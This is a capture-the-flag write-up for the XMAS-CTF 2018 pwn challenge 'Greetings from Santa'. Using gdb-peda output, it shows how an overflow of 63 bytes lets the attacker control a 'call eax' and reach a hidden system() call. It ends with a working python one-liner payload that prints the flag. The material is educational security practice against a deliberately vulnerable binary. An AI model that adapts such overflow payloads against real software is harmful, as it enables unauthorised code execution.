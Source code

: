 # __XMAS-CTF 2018__ 
## _Greetings from Santa_

## Information
**Category:** | **Writeup Author**
--- | ---
Pwn | Huascar Tejeda <<htejeda@f2tc.com>>

**Description:** 

> [chall](chall) 
>
> Author: littlewho

**Flag:**

> X-MAS{6r3371n65_fr0m_5y573m_700}

## Solution

This is an interesting challenge. Here's what I learned from the initial analysis:

![](/images/XMAS-CTF-2018/GreetingsFromSanta/01.png)

- What is this `call 0x8048760` after printf("Greetings from Santa! Wanna talk? ")?

```
gdb-peda$ pdisas 0x8048760
Dump of assembler code from 0x8048760 to 0x8048780::	Dump of assembler code from 0x8048760 to 0x8048780:
   0x08048760:	push   ebp
   0x08048761:	mov    ebp,esp
   0x08048763:	sub    esp,0x10
   0x08048766:	mov    eax,0x8048898            ; humm...
   0x0804876b:	mov    DWORD PTR [ebp-0x4],eax
   0x0804876e:	nop
   0x0804876f:	leave  
   0x08048770:	ret    
   0x08048771:	nop
   0x08048772:	push   ebp                       ; o_O - No references to here
   0x08048773:	mov    ebp,esp
   0x08048775:	sub    esp,0x8
   0x08048778:	sub    esp,0xc
   0x0804877b:	push   DWORD PTR [ebp+0xc]
   0x0804877e:	call   0x8048500 <system@plt>

```

- 0x8048898 looks like a string:

```
gdb-peda$ x/10x 0x8048898
0x8048898:	"r\207\004\b؞\004\b\244\210\004\b7Greeter"

gdb-peda$ x/20x 0x8048898
0x8048898:	0x72	0x87	0x04	0x08	0xd8	0x9e	0x04	0x08
0x80488a0:	0xa4	0x88	0x04	0x08	0x37	0x47	0x72	0x65
0x80488a8:	0x65	0x74	0x65	0x72

0x72 0x87 0x04 0x08 = 0x08048772 :-O
```

- In order to reach the second function 0x8048703 first char must be equal to 0x804886b="y"

![](/images/XMAS-CTF-2018/GreetingsFromSanta/02.png)

- Notice the `call eax` after `fgets(buf, 100, stdin); buf[strlen(buf) - 1] = 0`

#### Properties of the executable:
```
[f2tc@htejeda GreetingsFromSanta]$ checksec chall
[*] '/home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

[f2tc@htejeda GreetingsFromSanta]$ objdump --syms chall 

chall:     file format elf32-i386

SYMBOL TABLE:
no symbols
```

#### Let's do some tests with everything we've learned so far

- I'll use pattern_create to simplify searching for our offset. _Remember that 'y' must be the first character._

```
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
Starting program: /home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/./chall 
Greetings from Santa! Wanna talk? yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

[----------------------------------registers-----------------------------------]
EAX: 0x64414148 ('HAAd')
EBX: 0xf7e7d000 --> 0x1c6da8 
ECX: 0x2ccc 
EDX: 0x1 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd3e8 --> 0xffffd458 ("eAA4AAJAAfAA5AAKAAgAA6AAL\n")
ESP: 0xffffd370 --> 0xf7e7dc40 --> 0xfbad208b 
EIP: 0x804874c (mov    eax,DWORD PTR [eax])
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048742:	mov    BYTE PTR [ebp+eax*1-0x6c],0x0
   0x8048747:	mov    eax,DWORD PTR [ebp+0x8]
   0x804874a:	mov    eax,DWORD PTR [eax]
=> 0x804874c:	mov    eax,DWORD PTR [eax]
   0x804874e:	sub    esp,0x8
   0x8048751:	lea    edx,[ebp-0x6c]
   0x8048754:	push   edx
   0x8048755:	push   DWORD PTR [ebp+0x8]
[------------------------------------stack-------------------------------------]
0000| 0xffffd370 --> 0xf7e7dc40 --> 0xfbad208b 
0004| 0xffffd374 --> 0xffffd40c ("yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
0008| 0xffffd378 --> 0x0 
0012| 0xffffd37c ("f2tc")
0016| 0xffffd380 --> 0xf7e70000 --> 0xb44040e 
0020| 0xffffd384 --> 0xffffd40c ("yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
0024| 0xffffd388 --> 0x1ff 
0028| 0xffffd38c --> 0xa ('\n')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0804874c in ?? ()
```

Sice in the second function there is a `call eax`, I will focus on controlling EAX.

```
EAX: 0x64414148 ('HAAd')

gdb-peda$ pattern_offset 0x64414148
1681998152 found at offset: 63
```

This is a stripped binary, so let's disassemble the text segment and set a breakpoint before printf("Greetings from Santa! Wanna talk? ")
```
gdb-peda$ info file
Symbols from "/home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/chall".
Local exec file:
`/home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/chall', file type elf32-i386.
Entry point: 0x8048520
0x08048154 - 0x08048167 is .interp
0x08048168 - 0x08048188 is .note.ABI-tag
0x08048188 - 0x080481ac is .note.gnu.build-id
0x080481ac - 0x080481e0 is .gnu.hash
0x080481e0 - 0x080482c0 is .dynsym
0x080482c0 - 0x0804839a is .dynstr
0x0804839a - 0x080483b6 is .gnu.version
0x080483b8 - 0x080483f8 is .gnu.version_r
0x080483f8 - 0x08048420 is .rel.dyn
0x08048420 - 0x08048460 is .rel.plt
0x08048460 - 0x08048483 is .init
0x08048490 - 0x08048520 is .plt
0x08048520 - 0x08048811 is .text
0x08048814 - 0x08048828 is .fini
0x08048828 - 0x080488ca is .rodata
0x080488cc - 0x08048920 is .eh_frame_hdr
0x08048920 - 0x08048a80 is .eh_frame
0x08049ec8 - 0x08049ecc is .init_array
0x08049ecc - 0x08049ed0 is .fini_array
0x08049ed0 - 0x08049efc is .data.rel.ro
0x08049efc - 0x08049ffc is .dynamic
0x08049ffc - 0x0804a000 is .got
0x0804a000 - 0x0804a02c is .got.plt
0x0804a02c - 0x0804a030 is .data
0x0804a040 - 0x0804a070 is .bss

gdb-peda$ pdisas 0x08048520,0x08048811
...
0x0804869b:	push   0x8048848
0x080486a0:	call   0x80484f0 <printf@plt>
...

gdb-peda$ b *0x0804869b
gdb-peda$ r < <(python -c 'print "y" + "A"*63 +"\n" + "f2tc"')
```

Pay careful attention to what happens after `printf("What is your name? ")` `fgets(buf, 100, stdin);` and `buf[strlen(buf) - 1] = 0`:

```
   0x804874a:	mov    eax,DWORD PTR [eax]
=> 0x804874c:	mov    eax,DWORD PTR [eax]
```

It copies (twice) to eax the contents of memory currently pointed to by eax. `call eax` right after this.

Remember the strange `call 0x8048760` we saw at the beginning? Inside of it it has a string 0x8048898 that will help us defeat this challenge.

- If we overwrite EAX with 0x8048898, after the two dereferences we will have:
`EAX: 0xffffd44c --> 0x8048898 --> 0x8048772 (push   ebp)`
- The string of our second question is pushed and system gets called:

```
=> 0x804877e:	call   0x8048500 <system@plt>
Guessed arguments:
arg[0]: 0xffffd37c ("f2tc")
```

## Exploit

**Buffer** | **EAX** | **CMD**
--- | --- | ---
"y" + "A" * 63 + "\n" | 0x8048898 | cat flag

```bash
[f2tc@htejeda GreetingsFromSanta]$ python -c 'import struct;print "y" + "A"*63 + struct.pack("<I", 0x8048898) + "\n" + "cat flag"' | ./chall
Greetings from Santa! Wanna talk? What is your name? X-MAS{6r3371n65_fr0m_5y573m_700}
```
